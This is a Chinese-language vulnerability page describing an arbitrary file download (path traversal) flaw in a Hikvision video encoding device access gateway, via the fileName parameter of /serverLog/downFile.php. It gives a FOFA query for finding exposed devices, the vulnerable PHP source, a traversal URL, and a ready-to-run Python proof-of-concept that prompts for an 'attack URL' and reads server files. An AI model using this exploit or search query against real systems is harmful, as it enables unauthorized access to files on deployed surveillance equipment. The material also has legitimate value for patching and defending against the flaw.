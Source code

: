 # HIKVISION 视频编码设备接入网关 任意文件下载

## 漏洞描述

海康威视视频接入网关系统在页面/serverLog/downFile.php的参数fileName存在任意文件下载漏洞

## 漏洞影响

> [!NOTE]
>
> HIKVISION 视频编码设备接入网关

## FOFA

> [!NOTE]
>
> title="视频编码设备接入网关"

## 漏洞复现

![](image/hiv-3.png)

漏洞文件为 **downFile.php**, 其中 **参数 fileName** 没有过滤危险字符，导致可文件遍历下载

```php
<?php
$file_name=$_GET['fileName'];
$file_dir = "../../../log/";
if   (!file_exists($file_dir.$file_name))   {   //检查文件是否存在  
  echo'<script> alert("文件不存在!");window.history.back(-1);</script>'; 
  exit();

}else{	
	$file = fopen($file_dir . $file_name,"r"); // 打开文件
	// 输入文件标签
	Header("Content-type: application/octet-stream");
	Header("Accept-Ranges: bytes");
	Header("Accept-Length: ".filesize($file_dir . $file_name));
	Header("Content-Disposition: attachment; filename=" . $file_name);
	// 输出文件内容
	echo fread($file,filesize($file_dir.$file_name));
	fclose($file);
	exit();
}
?> 
```

访问 http://xxx.xxx.xxx.xxx/serverLog/downFile.php?fileName=../web/html/serverLog/downFile.php 下载文件

![](image/hiv-1.png)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: HIKVISION 视频编码设备接入网关                               \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/serverLog/downFile.php?fileName=../web/html/serverLog/downFile.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/serverLog/downFile.php?fileName=../web/html/serverLog/downFile.php \033[0m".format(target_url))
        if "$file_name" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 downFile.php \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](image/hiv-2.png)

## Goby & POC

![](image/hiv-4.png)